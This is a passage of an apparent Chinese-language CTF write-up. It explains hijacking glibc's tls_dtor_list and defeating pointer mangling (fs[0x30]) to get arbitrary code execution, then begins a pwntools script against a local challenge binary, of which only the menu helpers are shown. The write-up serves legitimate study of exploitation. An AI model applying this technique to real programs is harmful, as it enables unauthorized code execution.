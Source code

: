 ```c

      /* Ensure that the MAP dereference happens before
	 l_tls_dtor_count decrement.  That way, we protect this access from a
	 potential DSO unload in _dl_close_worker, which happens when
	 l_tls_dtor_count is 0.  See CONCURRENCY NOTES for more detail.  */
      atomic_fetch_add_release (&cur->map->l_tls_dtor_count, -1);
      free (cur);
    }
}
libc_hidden_def (__call_tls_dtors)

```

```c
#define PTR_DEMANGLE(var) \
  asm ("ror $0x11, %0\n" \
       "xor %%fs:0x30, %0\n" \
       : "=r" (var) \
       : "0" (var))
//循环右移0x11位,然后与fs[0x30]异或 
```

它会遍历tls_dtor_list链表,并在遍历的同时执行`PTR_DEMANGLE()`处理后的func.也就是说,如果我们能控制tls_dtor_list,并且泄露(或者控制)fs[0x30],就能实现任意地址执行.

`tls_dtor_list`的地址在libc中,因此可以直接修改,但这个程序的fs似乎和堆在同一页,不过可以用部分写入爆破.

编写脚本如下:

```py
from pwn import *

p=process("./pwn")
#gdb.attach(p)
def add_(idx,text):
    p.recvuntil("Your choice:\n")
    p.sendline("1")
    
    p.recvuntil("idx:")
    p.sendline(str(idx))
    p.recvuntil("Alright!\nwhat do you want to say\n")
    p.send(text)
    return

def edi_(idx,text):
    p.recvuntil("Your choice:\n")
    p.sendline("3")
    
    p.recvuntil("idx:")
    p.sendline(str(idx))
    p.recvuntil("context: ")
    p.send(text)
    return

def del_(idx):
    p.recvuntil("Your choice:\n")
    p.sendline("2")
    
    p.recvuntil("idx:")
    p.sendline(str(idx))
    return

def exit_():
    p.recvuntil("Your choice:\n")
    p.sendline("4")
    return
```